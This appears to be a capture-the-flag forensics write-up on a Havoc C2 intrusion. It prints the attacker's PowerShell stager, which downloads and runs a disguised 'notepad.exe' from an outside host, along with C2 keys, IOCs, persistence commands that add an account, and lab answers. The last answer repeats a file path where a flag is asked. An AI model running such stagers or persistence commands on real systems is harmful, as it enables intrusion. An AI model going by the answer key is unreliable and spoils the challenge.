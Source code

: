 - **install.ps1**

![](../../Image/Pasted%20image%2020250423105618.png)

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```

- **Object list:**

![](../../Image/Pasted%20image%2020250423105656.png)

- **notepad.exe**

![](../../Image/Pasted%20image%2020250423105643.png)

- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address**
- hxxp[:]//10.0.2.37
#### **File**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![](../../Image/Pasted%20image%2020250423101528.png)

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![](../../Image/Pasted%20image%2020250423105228.png)

=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![](../../Image/Pasted%20image%2020250423105244.png)

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![](../../Image/Pasted%20image%2020250423105304.png)
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![](../../Image/Pasted%20image%2020250423105347.png)

=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![](../../Image/Pasted%20image%2020250423105335.png)

=> **C:\Users\paco\Desktop\Files\clients.csv**

